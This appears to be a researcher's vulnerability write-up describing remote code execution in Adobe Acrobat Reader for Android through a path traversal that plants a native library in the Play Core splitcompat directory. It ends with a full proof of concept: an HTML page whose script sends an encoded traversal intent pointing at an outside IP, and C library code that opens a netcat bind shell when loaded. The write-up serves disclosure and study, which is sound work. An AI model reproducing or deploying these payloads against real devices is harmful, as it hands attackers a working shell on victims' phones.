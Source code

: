 A simple way to know whether an app is using play core library for dynamic code loading is to check for `spiltcompat` directory in `/data/data/:application_id/files/` directory.

Using path transversal bug i can write an arbitrary apk in `/data/data/com.adobe.reader/files/splitcompat/1921618197/verified-splits/` directory of the app.The classes from the attacker’s apk would automatically be added to the ClassLoader of the app and malicious code will be executed when called from the app. For more detailed explanation read this [article](https://blog.oversecured.com/Why-dynamic-code-loading-could-be-dangerous-for-your-apps-a-Google-example/)

Adobe reader app also downloads an module name `FASOpenCVDF.apk` during runtime of app. The plan was to overwrite this file and acheive code execution remotely, but this was not possible. The issue was with this path transversal vulnerability i  could not write over existing files... only create new files. 

I was stuck at this stage for a long time finding a way to gain code execution remotely without installing an additional apk. After analysing other apps using play core library installed on my device, i saw play core library also provide feature of loading native code(.so files) from  `/data/data/com.adobe.reader/files/splitcompat/:id/native-libraries/` directory.

`FASOpenCVDF.apk` module was also loading an native library from
`/data/data/com.adobe.reader/files/splitcompat/1921819312/native-libraries/FASOpenCVDF.config.arm64_v8a` directory. I decided to take a look into `FASOpenCVDF.apk` source code and there i founded this module is also trying to load three unavailable libraries `libADCComponent.so`,`libColoradoMobile.so` and `libopencv_info.so ` and this solved my issue of executing code remotely.

I created a simple poc native library , renamed it to `libopencv_info.so` and dropped it in /data/data/com.adobe.reader/files/splitcompat/1921819312/native-libraries/FASOpenCVDF.config.arm64_v8a directory, and from next launch whenever fill and sign feature would be used, the malicious code will be executed.

## # Proof of Concept

```
<html>
<title> RCE in Adobe Acrobat Reader for android </title>
<body>
    <script>
        window.location.href="intent://34.127.85.178/x/x/x/x/x/..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.adobe.reader%2Ffiles%2Fsplitcompat%2F1921819312%2Fnative-libraries%2FFASOpenCVDF.config.arm64_v8a%2Flibopencv_info.so#Intent;scheme=http;type=application/*;package=com.adobe.reader;component=com.adobe.reader/.AdobeReader;end";
    </script>    
</body>
</html>
```


```
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {

    if (fork() == 0) {
        system("toybox nc -p 6666 -L /system/bin/sh -l");
    }
    JNIEnv* env;
    if (vm->GetEnv(reinterpret_cast<void**>(&env), JNI_VERSION_1_6) != JNI_OK) {
        return JNI_ERR;
    }
    return JNI_VERSION_1_6;
}
```
